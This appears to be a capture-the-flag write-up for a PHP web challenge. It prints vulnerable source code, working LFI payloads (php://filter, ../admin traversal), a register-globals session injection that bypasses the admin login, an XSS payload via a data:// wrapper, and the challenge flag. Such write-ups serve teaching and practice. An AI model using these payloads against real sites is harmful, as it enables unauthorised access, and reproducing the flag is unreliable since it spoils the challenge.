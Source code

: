 ## LFI : ajax.php?load=php://filter/convert.base64-encode/resource=admin
```php
ajax
<?php

if (isset($_GET['load']) && !empty($_GET['load'])) {
	if (is_string($_GET['load']))
		echo file_get_contents($_GET['load'].'.php');
}


?>

view-source:web6.ese.crashlab.org/ajax.php?load=functions
<?php
function get_flag() {
	$pdo = new PDO('sqlite:'.dirname(__FILE__).'/db.sqlite');
	$pdo->setAttribute(PDO::ATTR_DEFAULT_FETCH_MODE, PDO::FETCH_ASSOC);
	$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
	$q = $pdo->query("SELECT flag FROM flag");
	$d = $q->fetch();
	return $d['flag'];
}
web6.ese.crashlab.org/db.sqlite~  Nope
web6.ese.crashlab.org/db.sqlite Nope
?>
```

http://web6.ese.crashlab.org/ajax.php?load=php://filter/convert.base64-encode/resource=admin
view-source:web6.ese.crashlab.org/ajax.php?load=admin
```php
<?php

require 'functions.php';
//admin page

if (isset($_SESSION['auth']) && $_SESSION['auth'] == "true") {
	echo get_flag();
}
else if (isset($_POST['password']) && sha1($_POST['password']) == "cdbd845f59a4350228398a5d47689e2077bb14f2") {
	$_SESSION['auth'] = 'true';
	header('Location: admin.php');
}
else {
	echo "<form action='' method='POST'>";
	echo "Password <input type='password' name='password' ><br>";
	echo "<input type='submit' value='Login !'>";
	echo "</form>";
}

?>

```


## Register Global
view-source:web6.ese.crashlab.org/ajax.php?load=common
?
```php
<?php
require 'common.php';
?>

<!DOCTYPE html>
<html lang="en">

<head>

<?php
foreach ($_GET as $key => $value) {
	$$key = $value;
}

# Pas d'include car file_exist !!!!!
if (isset($lang) && !empty($lang)) {
	if (file_exists("lang/$lang.php"))
		include "lang/$lang.php";
	else
		include "lang/en.php";
} else {
	include "lang/en.php";
}

?>
```

```
web6.ese.crashlab.org/common.php?_SESSION['auth']='true'
web6.ese.crashlab.org/common.php?_SESSION['auth']='true'
?_SESSION['auth']='true'
trouver comment set ?_SESSION['auth']='true' avec le register
?_SESSION=%27true%27
?_SESSION[%27auth%27]=true
web6.ese.crashlab.org/admin.php?_SESSION=%27auth%27:%27true%27
web6.ese.crashlab.org/admin.php?_SESSION.'auth'=true
web6.ese.crashlab.org/admin.php?_SESSION->'auth'=true
web6.ese.crashlab.org/admin.php?_SESSION.0=true
http://127.0.0.1/?_SESSION=true Warning: Illegal string offset 'auth' in /var/www/html/index.php on line 22
http://127.0.0.1/?_SESSION.auth=true
http://127.0.0.1/?_SESSION->auth=true
127.0.0.1/?_SESSION%3D%3Eauth=true
127.0.0.1/?_SESSION=>auth=true
web6.ese.crashlab.org/admin.php?_SESSION%5Bauth%5D=true -> array(1) { ["auth"]=> string(4) "true" }
				echo $_SESSION['auth'];

Bon payload:
?_SESSION%5Bauth%5D=true
et
echo "true"==true;   => 1
```

```
http://web6.ese.crashlab.org/common.php?lang=../admin&_SESSION%5Bauth%5D=true
ese{facile_Ou_Pas?}
```








## Methodologie Write up:
REGARDER le code source pour trouver les fichiers AJAX intéressants
LFI pour avoir le code source : ajax.php?load=php://filter/convert.base64-encode/resource=admin , common, index, etc   
REGISTER GLOBAL pour définir les variables lang et SESSION   :  lang=../admin&_SESSION%5Bauth%5D=true
LFI pour inclure la page et que la variable session soit injectée dans admin.php
REGISTER GLOBAL pour être connecté avec la session car echo "true"==true;   => 1 dans PHP, et [] encodé
Flag : ese{facile_Ou_Pas?}



### Fun
```
v1 Fun :p EDIT: Fixed
-------------------
http://web6.ese.crashlab.org/ajax.php?load=data://text/plain,,%3Chtml%3E%3Csvg%20onload=alert%28String.fromCharCode%2887,104,121,32,117,32,100,111,32,100,105,115,32,33,32,71,105,109,109,101,32,100,97,32,102,108,97,103%29%29%3E%3C!--
```

